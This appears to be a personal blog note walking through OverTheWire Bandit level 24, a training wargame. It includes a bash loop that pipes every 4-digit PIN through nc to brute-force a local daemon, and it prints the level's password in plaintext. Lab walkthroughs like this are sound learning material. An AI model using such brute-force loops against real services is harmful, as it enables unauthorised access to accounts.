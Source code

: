 ```yaml
---
layout: post
title: Bandit 24
date: 2023-11-24 09:05 -0600
categories: OvertheWire Bandit
tags: note
permalink: "/:categories/:title"
---
```



```bash
nc localhost 30002
```
- A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and secret numeric 4-digit pin.

- There is no way to retrieve the pin except by brute forcing.


```
<bandit24 password> <4 digit pin>
```


```bash
mkdir /tmp/bacon
```
- Create a script on `tmp` that will brute force the daemon

```bash
#!/bin/bash

for i in {0000..9999}; do
        echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i"
done | nc localhost 30002
```
- Script generates a range of four-digit numbers (from 0000 to 9999) and prefixes each number with a fixed string (`bandit24 password`)
- Each generated string is then piped into `nc` immediately. The `nc` sends this this string to `localhost 30002`
